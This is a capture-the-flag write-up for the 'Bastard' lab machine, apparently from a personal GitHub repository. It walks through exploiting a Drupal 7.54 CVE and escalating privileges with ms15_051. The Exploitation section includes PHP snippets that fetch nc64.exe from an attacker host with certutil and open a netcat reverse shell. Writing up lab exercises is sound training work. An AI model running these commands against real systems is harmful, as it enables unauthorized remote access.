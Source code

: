 # Bastard
![image](https://github.com/partyh4t/Write-ups/assets/114421293/3061d92f-1f6d-4189-a9e4-e510b14e004c)


## 0) Machine Overview
- We're first met with a web application running Drupal that leaks a useful directory through the robots.txt file.
- The file contains a version# for the current Drupal installation that is running on the web server.
- We're then able to leverage that version number to exploit a CVE to gain credentials and eventually RCE.
- Finally, once the machine was compromised, we exploited ms15_051 to gain Administrative Privileges.

## 1) Scans
![image](https://github.com/partyh4t/Write-ups/assets/114421293/900fd3f7-bc43-414b-a7d1-1aa87ec1381f)

## 2) Web Enumeration
Heading to the webpage, we're met with Drupal
![image](https://github.com/partyh4t/Write-ups/assets/114421293/df3dfa47-769b-401c-9c4e-9651018415bd)


With some testing, and checking the robots.txt, we notice:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/22d60b3d-fb7e-4e66-bee5-a207dfdc103f)


As we can see, we now know the exact version number of the CMS being used.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/cbecd508-9201-4196-9d28-40c0b13ae57f)

## 3) Exploitation
With some research "Drupal 7.54 exploit" we instantly are met with:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/40c9887d-fbc0-418f-8cd6-7f422b59ff2f)


We used the exploit, but we had to alter some of the code:
Originally i only changed the url to the proper IP, and as we can see, the endpoint_path is set to /rest-endpoint, but the exploit doesn't work.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/acb9b252-ca1b-40f5-9e2c-87d60107bcc0)


So if we try to access that endpoint ourselves, it turns out it doesnt exist for us.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/735785d0-003e-4a3d-8f1c-9c81b50a0bbc)


What if we try just /rest? Because if we search up that error with drupal, we can see some stackoverflow questions, that show that /rest is also a possible endpoint.

With that fixed:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/39aa305d-3e55-44c1-9176-a1fbad85525b)


Now, the exploit is creating a .php file within the server, and the exploit code is retrieving credentials:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/0103ff84-1d65-4b26-aa10-de9d330cb625)


Also the session information:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/38e59117-7a55-4f2c-bdb2-fbd88c95cf6a)


So we can either log into the admin dashboard and investigate, or we can also change the data to maybe give us a shell of some sort, it'd have to be in php though.

Lets first try to add some of those cookies into our browser:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/6ea28526-0a5b-4f0a-bfcf-23d67958be05)


Here, we put the session names value into the name section, and the id into the value:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/a2f6a602-467e-4020-b6ad-035a5220eb99)


I was having trouble trying to get a rev shell with the exploit code, so we'll have to do it manually.

Going to be following this:
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce)

Note: this will only work for versions of Drupal before V8.

So, after a lot of research, and some PHP errors, I was able to use this code on the new page within the "Add-content" section:
```
<?php
$command = "certutil.exe -urlcache -f http://10.10.14.15:8080/nc64.exe nc64.exe";
$output = shell_exec($command);
echo $output;
?>
```

And then to execute it: (Turns out [shell_exec](https://stackoverflow.com/questions/11209509/using-php-to-execute-cmd-commands) is exactly what I needed in this case)
```
<?php
shell_exec('nc64.exe -e cmd 10.10.14.15 1234')
?>
```

## 4) Privilege Escalation
Now that we had access to the machine, i uploaded a meterpreter executable so i can use metasploit.

Once that was done, i ran local_exploit_suggester on the target, and was given multiple exploits that the target seemed to be vulnerable to.

I tried multiple, however the one that worked was [ms15_051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051). Using the metasploit module for it, i just had to make sure the payload was set to windows/x64/meterpreter/reverse_tcp, stressing on the x64 as without it, it wouldnt work. Also made sure the target was set to Windows x64, and the original meterpreter session was migrated to an x64 process.

Pwned.

---
